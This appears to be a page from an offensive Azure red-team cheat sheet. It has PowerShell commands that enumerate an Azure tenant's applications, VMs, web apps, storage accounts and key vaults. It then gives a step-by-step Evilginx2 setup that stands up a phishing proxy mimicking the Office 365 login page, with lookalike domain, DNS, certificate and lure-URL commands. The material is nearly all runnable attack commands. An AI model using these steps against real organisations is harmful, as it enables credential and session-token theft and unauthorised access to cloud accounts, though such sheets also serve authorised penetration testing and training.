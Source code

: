 ```powershell

# Check if there is a user logged-in to az cli
PS> az ad signed-in-user show

# Check AppID Alternative Names/Display Name 
PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl


# Get all application objects registered using the current tenant
PS AzureAD> Get-AzureADApplication -All $true

# Get all details about an application
PS AzureAD> Get-AzureADApplication -ObjectId <ID> | fl *

# List all VM's the user has access to
PS Az> Get-AzVM 
PS Az> Get-AzVM | fl

# Get all function apps
PS Az> Get-AzFunctionApp

# Get all webapps
PS Az> Get-AzWebApp
PS Az> Get-AzWebApp | select-object Name, Type, Hostnames

# List all storage accounts
PS Az> Get-AzStorageAccount
PS Az> Get-AzStorageAccount | fl

# List all keyvaults
PS Az> Get-AzKeyVault
```

## Phishing with Evilginx2

```powershell
PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
: config domain username.corp
: config ip 10.10.10.10
: phishlets hostname o365 login.username.corp
: phishlets get-hosts o365

Create a DNS entry for login.login.username.corp and www.login.username.corp, type A, pointing to your machine

# copy certificate and enable the phishing
PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
: phishlets enable o365

# get the phishing URL
: lures create o365
: lures get-url 0
```
